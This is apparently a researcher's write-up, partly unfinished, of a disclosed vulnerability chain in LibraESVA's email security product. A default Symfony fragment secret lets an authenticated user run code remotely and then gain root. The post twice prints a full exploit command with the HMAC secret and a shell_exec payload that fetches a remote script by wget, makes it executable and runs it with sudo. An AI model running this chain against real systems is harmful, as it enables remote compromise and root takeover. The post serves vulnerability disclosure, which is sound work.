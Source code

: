 ```yaml
---
title: LibraEsva's Email Security Authenticated root shell
excert: An underling bug in Symfony brings to an RCE in famous email security manager
tags:
 - CVE
 - LibraEsva
 - RCE
 - Shellcode
 - Web
 - Walkthrough
category:
 - research
toc: true
---
```


> Under construction
{: .prompt-warning}

> TL;DR: Based upon Symfony framework, LibraESVA exposed the [FragmentListener][1] class with well-know secret, leading to an authenticated RCE and subsequent privileges escalation to root.
{: .prompt-info}

Let's dive in:

## LibraEsva

The company LibraESVA proposes different solution for managing email ecosystem. From Email Security program to Load Balancer solution.
Basically those products are suite for managing emails, ranging from user management to built-in security features like antivirus scan and phishing prevention mechanism.

## Symfony RCE

Thanks to the [excellent work by Ambionic Security][2] on the Symfony Framework, it was possible to focus my research on the __FragmentListener__ class.
Quoting from their blog,  
```
Essentially, when someone issues a request to /_fragment, this listener sets request attributes from given GET parameters. Since this allows to run arbitrary PHP code (more on this later), the request has to be signed using a HMAC value. This HMAC's secret cryptographic key is stored under a Symfony configuration value named secret.
```

Obviously we need to find this __secret__. Luckily this was a trivial task, as the Symphony's well documented docs gives instruction where to find this value.
The __secret__ is located within the __/xxx/yyy/zzz.conf__ file, unchanged from the default value.

## RCE

Using the previous mentioned technique, it was possible to remotely execute command on the machine. This was achieved using the [Ambionic's Symfony Exploit][3] found on their GitHub page.
Building the command as following:
```
./secret_fragment_exploit.py https://192.168.11.120/_fragment -i "https://192.168.11.120/_fragment" -s '36b1f1aadcc7602eeedcd83cc7d5510e9b2a9bd5' -m 1 -f shell_exec -p cmd:"cd /tmp/; wget -qO upgradescript --no-check-certificate https://192.168.11.124:8443/QE4aPZwlxtk; chmod 777 upgradescript; sudo ./upgradescript disown
``` 

## Privilage Escalation

Located in ```/tmp``` there is a SUID script file which is either writable and executable. 
The __/tmp/upgradescript__ 

The complete command to trigger the chain is:
```
./secret_fragment_exploit.py https://192.168.11.120/_fragment -i "https://192.168.11.120/_fragment" -s '36b1f1aadcc7602eeedcd83cc7d5510e9b2a9bd5' -m 1 -f shell_exec -p cmd:"cd /tmp/; wget -qO upgradescript --no-check-certificate https://192.168.11.124:8443/QE4aPZwlxtk; chmod 777 upgradescript; sudo ./upgradescript disown
```

## Final thoughts 

It is very important to run periodic vulnerability assessment and complete penetration testing on you own products, which seems that LibraEsva haven't done. When developing a product based upon a framework, it is important to keep in mind that the framework itself could not be secure, that could lower the security of the overall project.
Nonetheless, LibraEsva were very quick in triaging and fixing the bug.

## Disclosure Timeline

| Date | Description |
| --- | --- |
| 18-03-2021 | LibraEsva's developers team informed about the vuln |
| 07-04-2021 | Fix released with product version 4.9.5 |
| 27-07-2021 | Public release |

---
[1]: https://github.com/symfony/symfony/blob/5.1/src/Symfony/Component/HttpKernel/EventListener/FragmentListener.php
[2]: https://www.ambionics.io/blog/symfony-secret-fragment
[3]: https://github.com/ambionics/symfony-exploits



